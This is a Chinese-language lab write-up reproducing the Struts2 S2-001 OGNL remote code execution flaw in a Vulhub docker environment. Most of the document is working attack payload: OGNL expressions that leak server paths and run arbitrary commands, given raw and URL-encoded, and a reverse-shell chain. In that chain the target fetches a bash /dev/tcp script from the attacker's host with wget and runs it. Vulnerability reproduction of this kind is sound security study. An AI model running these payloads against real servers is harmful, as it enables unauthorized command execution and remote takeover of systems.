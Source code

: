 # Struts2 S2-001 远程代码执行漏洞

## 漏洞描述

该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行.

参考文章：

-  http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

## 环境搭建

Vulhub执行以下命令启动s2-001测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

获取tomcat执行路径：

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取Web路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

```
# URLencode后
%25%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%7B%22id%22%7D)).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new%20java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()%7D
```

![image-20220301154735903](./images/202203011547043.png)

### 反弹shell

准备反弹Shell文件shell.sh：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
```

启动http server：

```
# python2
python -m SimpleHTTPServer 80

# python3
python -m http.server 80
```

上传shell.sh文件：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"wget","192.168.174.128/shell.sh"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![image-20220301155634793](./images/202203011556922.png)

执行shell.sh文件：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"bash","/usr/local/tomcat/shell.sh"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![image-20220301155834822](./images/202203011558934.png)

监听9999端口，接收反弹shell：

![image-20220301155706920](./images/202203011557020.png)

